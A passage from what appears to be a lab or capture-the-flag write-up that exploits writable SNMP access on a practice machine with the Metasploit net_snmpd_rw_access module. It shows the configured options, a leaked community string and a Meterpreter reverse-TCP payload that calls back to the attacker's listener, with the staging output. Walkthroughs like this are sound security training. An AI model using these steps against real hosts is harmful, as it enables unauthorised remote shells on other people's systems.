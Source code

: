 While this works, it is a bit unreliable, so I decided to use Metasploit to get a shell.

### Exploiting SNMP-RW using Metasploit

Using the Metasploit module, we simply have to configure the options and run it.

```ruby
msf6 > use exploit/linux/snmp/net_snmpd_rw_access 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/snmp/net_snmpd_rw_access) > options

Module options (exploit/linux/snmp/net_snmpd_rw_access):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CHUNKSIZE  200              yes       Maximum bytes of payload to write at once
   COMMUNITY  SuP3RPrivCom90   yes       SNMP Community String
   FILEPATH   /tmp             yes       file path to write to
   RETRIES    1                yes       SNMP Retries
   RHOSTS     10.10.10.195     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      161              yes       The target port (TCP)
   SHELL      /bin/bash        yes       Shell to call with -c argument
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TIMEOUT    5                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    2c               yes       SNMP Version <1/2c>


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```

We select the module and configure it as shown above. After that we can run the module.

```ruby
msf6 exploit(linux/snmp/net_snmpd_rw_access) > run

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Command Stager progress -   0.83% done (196/23475 bytes)
[*] Command Stager progress -   1.67% done (392/23475 bytes)
[*] Command Stager progress -   2.50% done (588/23475 bytes)
[*] Command Stager progress -   3.34% done (784/23475 bytes)
[*] Command Stager progress -   4.17% done (980/23475 bytes)
[...]
[*] Command Stager progress -  96.85% done (22736/23475 bytes)
[*] Command Stager progress -  97.69% done (22932/23475 bytes)
[*] Command Stager progress -  98.52% done (23128/23475 bytes)
[*] Command Stager progress -  99.36% done (23324/23475 bytes)
[*] Sending stage (976712 bytes) to 10.10.10.195
```
